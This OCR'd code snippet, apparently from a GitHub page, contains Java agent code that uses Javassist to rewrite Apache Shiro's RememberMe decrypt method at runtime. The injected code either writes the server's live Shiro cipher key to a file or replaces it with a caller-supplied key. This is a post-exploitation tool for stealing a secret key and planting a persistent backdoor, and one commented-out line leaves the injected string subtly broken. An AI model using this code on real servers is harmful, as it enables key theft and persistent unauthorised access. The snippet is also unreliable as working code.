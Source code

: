 ```bash
        try {
            cls = Class.forName("org.apache.shiro.mgt.AbstractRememberMeManager");
            for(int i = 0; i < classes.length; i++) {
                Class clazz = classes[i];
                try {
                    // 判断类clazz是否是org.apache.shiro.mgt.AbstractRememberMeManager.class的子类、实现类
                    if(cls.isAssignableFrom(clazz)){
                        ClassPool classPool = new ClassPool(true);
                        classPool.insertClassPath(new ClassClassPath(clazz));
                        classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                        CtClass ctClass = classPool.get(clazz.getName());
                        CtMethod ctMethod = ctClass.getMethod("decrypt", "([B)[B");
                        ctMethod.insertBefore(String.format("java.lang.String temp = \"%s\";\n" +
                                "if(temp.endsWith(\"\\.txt\")){" +
                                "try {\n" +
                                "   " +
                                "   java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(new java.io.File(temp),true);\n" +
                                "   fileOutputStream.write(\"Shiro key: \".getBytes());\n" +
//                                "   java.lang.System.out.println(\"get shiro keying\");\n" +
//                                "   java.lang.System.out.println(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()));\n" +
                                "   fileOutputStream.write(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()).getBytes());\n" +
                                "   fileOutputStream.write(\"\\n\".getBytes());\n" +
                                "   fileOutputStream.flush();\n" +
                                "   fileOutputStream.close();\n}" +
                                "catch(java.lang.Throwable e){\n" +
//                                " e.printStackTrace();\n" +
                                "}\n}else{\n" +
                                "try{\n" +
                                "setCipherKey(org.apache.shiro.codec.Base64.decode(temp));\n" +
//                                "java.lang.System.out.println(\"set shiro key ing!\");\n}
                                "catch(java.lang.Throwable e){\n" +
//                                "e.printStackTrace();" +
                                "\n}\n}\n",arg2));
                        inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                        ctClass.detach();
                    }


                }catch (Throwable e){
                    e.printStackTrace();
                }
            }
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }

    }
```
